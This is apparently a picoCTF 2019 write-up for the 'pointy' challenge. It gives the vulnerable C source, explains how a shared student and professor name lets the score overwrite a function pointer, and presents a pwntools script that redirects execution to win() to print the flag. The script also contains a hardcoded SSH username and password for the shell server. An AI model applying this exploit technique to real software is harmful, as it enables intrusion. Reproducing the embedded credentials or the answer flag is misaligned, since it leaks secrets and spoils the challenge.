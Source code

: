 # Problem
Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/1a8c8077cf0c9b24e396ab5003a82630/vuln). It is also found in /problems/pointy_2_030e643c8a0e842516b1c6a3ff826144 on the shell server. [Source](https://2019shell1.picoctf.com/static/1a8c8077cf0c9b24e396ab5003a82630/vuln.c).

## Hints:

A function pointer can be used to call any function

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/1a8c8077cf0c9b24e396ab5003a82630/vuln
wget https://2019shell1.picoctf.com/static/1a8c8077cf0c9b24e396ab5003a82630/vuln.c
```

First, we investigate the source
```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define FLAG_BUFFER 128
#define NAME_SIZE 128
#define MAX_ADDRESSES 1000

int ADRESSES_TAKEN=0;
void *ADDRESSES[MAX_ADDRESSES];

void win() {
    char buf[FLAG_BUFFER];
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    puts(buf);
    fflush(stdout);
}

struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};

void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);

}

void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void* retrieveStudent(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void readLine(char * buff){
    int lastRead = read(STDIN_FILENO, buff, NAME_SIZE-1);
    if (lastRead<=1){
        exit(0);
        puts("could not read... see you!");
    }
    buff[lastRead-1]=0;
}

int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor;
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor);
        puts(professor->name);
        unsigned int value;
      printf("Input the score: \n");
      scanf("%u", &value);
        student->scoreProfessor(professor, value);       
    }
    return 0;
}
```

We can see that both ```Students``` and ```Professors``` are being searched by ```name```.
If we call both the student and the professor with the same name, the student will ```score``` himself and set his ```scoreProfessor``` pointer to an arbitrary value (the address of ```win```?). In the next round, this function will be called and we will get our flag.

Lets write a python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/pointy_2_030e643c8a0e842516b1c6a3ff826144')
  p = s.process('./vuln')

binary = ELF('./vuln')

win_address  = binary.symbols['win']

log.info('Found "{}" address ({} = {})'.format('win', win_address, hex(win_address)))

print p.recvuntil('Input the name of a student\n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the favorite professor of a student \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the student that will give the score \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the professor that will be scored \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

# Redirect function pointer to 'win'
print p.recvuntil('Input the score: \n')
log.info('Sending: {}'.format(win_address))
p.sendline('{}'.format(win_address))

print p.recvuntil('Input the name of a student\n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the favorite professor of a student \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the student that will give the score \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

print p.recvuntil('Input the name of the professor that will be scored \n')
log.info('Sending: {}'.format('a'))
p.sendline('{}'.format('a'))

# Call 'win'
print p.recvuntil('Input the score: \n')
log.info('Sending: {}'.format(0))
p.sendline('{}'.format(0))

print p.recv()
```

Flag: picoCTF{g1v1ng_d1R3Ct10n5_cad9c1b8}